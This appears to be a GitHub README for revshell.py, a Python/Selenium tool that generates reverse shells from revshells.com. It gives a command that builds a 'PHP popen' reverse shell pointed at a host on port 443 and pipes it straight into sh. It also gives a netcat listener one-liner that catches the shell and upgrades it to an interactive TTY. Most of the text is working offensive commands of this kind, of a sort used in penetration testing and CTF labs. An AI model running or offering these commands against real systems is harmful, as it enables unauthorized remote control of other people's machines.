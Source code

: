 # revshell.py
use selenium with python3 on revshells.com (or docker revshells) to generate shells.

![Peek 2021-10-08 19-51](https://user-images.githubusercontent.com/42157994/136601207-85432e27-c933-4d06-831a-77fbf5e3f603.gif)

revshell command:
```bash
rev_shell.py --ip 10.10.16.3 --port 443 -it 'PHP popen' -os linux -st zsh | sh
```


Listener used:
```bash
stty raw -echo; (echo 'script -qc "/bin/bash" /dev/null';echo pty;echo;echo "stty$(stty -a | awk -F ';' '{print $2 $3}' | head -n 1)";echo export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp;export PATH=$PATH:/usr/bin:/bin:/usr/pkg/bin:/usr/local/bin; export TERM=xterm-256color; alias ll='ls -lsaht'; echo clear; echo id;cat) | nc -lvnp 443 && reset
```



![image](https://user-images.githubusercontent.com/42157994/136600825-56bb5f2c-a366-450f-bc57-ee3560f49479.png)
